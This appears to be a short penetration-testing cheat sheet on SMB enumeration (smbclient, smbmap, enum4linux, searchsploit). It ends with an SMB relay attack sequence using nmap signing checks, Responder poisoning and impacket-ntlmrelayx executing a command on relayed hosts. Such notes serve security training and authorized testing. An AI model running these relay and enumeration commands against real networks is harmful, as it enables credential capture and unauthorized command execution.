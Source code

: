 ```
smbclient -L \\\\$IP\\
```

```
smbclient \\\\$IP\\DIRECTORY
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

